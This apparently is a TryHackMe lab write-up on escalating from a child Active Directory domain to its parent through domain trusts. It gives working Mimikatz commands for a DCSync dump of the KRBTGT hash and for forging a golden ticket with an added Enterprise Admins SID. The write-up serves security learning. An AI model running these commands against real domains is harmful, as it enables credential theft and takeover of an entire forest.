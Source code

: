 # Exploiting Domain Trusts

We have only exploited the ZA.TRYHACKME.LOC domain. Surely TRYHACKME must have domains for other regions as well? Well, if we take control of the root domain, TRYHACKME.LOC, we will be in a position to compromise all of these regional domains.

***

<figure><img src="../../../.gitbook/assets/image (195).png" alt=""><figcaption></figcaption></figure>

### <mark style="color:green;">Domain Trusts</mark>

As discussed before, a forest is a collection of one or more domain trees inside an AD network. Domain Trusts are a mechanism for users in the network to gain access to other resources in the domain. For the most part, trusts outline how the domains inside of a forest communicate with each other. In some environments, trusts can be extended out to external domains and even forests in some cases.

<figure><img src="../../../.gitbook/assets/image (189).png" alt=""><figcaption></figcaption></figure>

There are two main types of trusts that can be configured between domains:

{% tabs %}
{% tab title="1. Directional" %}
The direction of the trust flows from a trusting domain to a trusted domain
{% endtab %}

{% tab title="2. Transitive" %}
The trust relationship expands beyond just two domains to include other trusted domains
{% endtab %}
{% endtabs %}

<figure><img src="../../../.gitbook/assets/image (190).png" alt=""><figcaption></figcaption></figure>

It is common to have a root or parent domain in a forest. In our case, this is TRYHACKME.LOC. For each regional office, sub or child domains are created, such as ZA.TRYHACKME.LOC or UK.TRYHACKME.LOC. This forest configuration will allow the sharing of resources between the ZA and the UK office.&#x20;

However, as an attacker, we can also exploit this trust to compromise the parent domain if we have compromised a child domain.

### <mark style="color:green;">KRBTGT and Golden Tickets</mark>

I have explained this before in a previous section:

{% embed url="https://mfkrypt.gitbook.io/stuff/ctf-writeups/tryhackme/lateral-movement-and-pivoting/use-of-alternate-authentication-material#golden-ticket-vs-silver-ticket" %}

In order to forge TGTs, we need the following information:

* The FQDN of the domain
* The Security Identifier (SID) of the domain
* The username of the account we want to impersonate
* The KRBTGT password hash

We will again use Mimikatz with a DCSync to recover the KRBTGT password hash on THMSERVER2

### <mark style="color:green;">DCSync</mark>

DCSync is an attack that allows an adversary to simulate the behavior of a domain controller (DC) and retrieve password data via domain replication. The classic use for DCSync is as a precursor to a Golden Ticket attack, as it can be used to retrieve the KRBTGT hash.

<figure><img src="../../../.gitbook/assets/image (192).png" alt=""><figcaption></figcaption></figure>

It uses commands in the Directory Replication Service Remote Protocol (MS-DRSR) to simulate the behavior of a domain controller and ask other domain controllers to replicate information

```powershell
mimikatz.exe
# privilege::debug
# lsadump::dcsync /user:za\krbtgt
```

<figure><img src="../../../.gitbook/assets/image (191).png" alt=""><figcaption></figcaption></figure>

### <mark style="color:green;">Inter-Realm TGTs</mark>

We can take this a step further by forging an Inter-Realm TGT. Inter-Realm TGTs are used to **provide access to resources in other domains**. In our case, we want to exploit the bidirectional trust relationship between the child and parent domain **to gain full access to the parent domain**.

The key here is that we will exploit the trust the parent domain has with our child domain by adding the SID of the **Enterprise Admins (EA)** group as an extra SID to our forged ticket for the domain controller of the child domain. The EA group belongs to the parent domain and membership to this group essentially grants Administrative privileges over the entire forest! The default SID for this group is **S-1-5-21-\<RootDomain>-519**.

Before we can go into exploitation, we first need to recover two SIDs:

* The SID of the child domain controller (THMDC), which we will impersonate in our forged TGT
* The SID of the EA in the parent domain, which we will add as an extra SID to our forged TGT

Recover the SID of the child domain controller using:

```powershell
Get-ADComputer -Identity "THMDC"
```

<figure><img src="../../../.gitbook/assets/image (193).png" alt=""><figcaption></figcaption></figure>

We can recover the SID of the EA group using the following command to query the parent domain controller:

```powershell
Get-ADGroup -Identity "Enterprise Admins" -Server thmrootdc.tryhackme.loc
```

<figure><img src="../../../.gitbook/assets/image (194).png" alt=""><figcaption></figcaption></figure>

Then in Mimikatz, generate the Golden Ticket with the EA SID and pass the ticket

```powershell
kerberos::golden /user:Administrator /domain:za.tryhackme.loc /sid:<SID of child domain> /service:krbtgt /rc4:<Password hash of krbtgt user> /sids:<SID of Enterprise Admins group> /ptt
```

<figure><img src="../../../.gitbook/assets/image (196).png" alt=""><figcaption></figcaption></figure>

Verify that the ticket works to for the child DC

```powershell
dir \\thmdc.za.tryhackme.loc\c$
```

<figure><img src="../../../.gitbook/assets/image (197).png" alt=""><figcaption></figcaption></figure>

It works. Now let's try to enumerate the directory of the Parent DC

```powershell
dir \\thmrootdc.tryhackme.loc\c$
```

<figure><img src="../../../.gitbook/assets/image (198).png" alt=""><figcaption></figcaption></figure>

Get the flag in Administrator's Desktop

<figure><img src="../../../.gitbook/assets/image (199).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (200).png" alt=""><figcaption></figcaption></figure>
